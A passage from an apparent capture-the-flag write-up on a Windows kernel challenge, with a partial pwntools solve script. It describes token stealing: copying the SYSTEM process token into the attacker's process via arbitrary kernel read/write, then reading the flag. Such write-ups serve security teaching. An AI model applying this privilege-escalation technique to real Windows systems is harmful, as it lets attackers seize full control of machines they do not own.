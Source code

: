 ```py  

   return 0

target_eprocess = get_process(process_id)  
```

And at this point, we're almost ready to read the flag content, the only thing
we need to do is overwrite the Token value from our eprocess with the token
value from the system process.

```py  
system_token = read_at_va(PsInitialSystemProcess + Token_off)  
write_to_va(target_eprocess + Token_off, system_token)  
```

Then we just read the flag and we're done.  
```py  
io.sendline(b'3')  
io.interactive()  
```

## solve.py

```py  
from pwn import *

io = remote('xx.xx.xxx.xx', 4444)

kernel_base = int(io.recvline().decode().split(': ')[1], 16)  
process_id: int = int(io.recvline().decode().split(': ')[1])

print('[*] kernel_base:', hex(kernel_base))  
print('[*] pid', process_id)

def skip_options():  
   io.recvuntil(b'an option\r\n')

def read_at(off: int) -> int:  
   assert(off % 8 == 0)

   io.sendline(b'2')  
   io.recvline()  
   io.sendline(str(off // 8).encode())  
   io.recvline()  
   io.recvline()  
   v = int(io.recvline().decode().split('ead ')[1].strip())

   skip_options()  
   return v

def write_to(off: int, val: int) -> None:  
   assert(off % 8 == 0)

   io.sendline(b'1')  
   io.recvline()  
   io.sendline(str(off // 8).encode())  
   io.recvline()  
   io.sendline(str(val).encode())  
   io.recvline()  
   io.recvline()

   skip_options()

skip_options()  
secret_store_base: int = read_at(64)  
```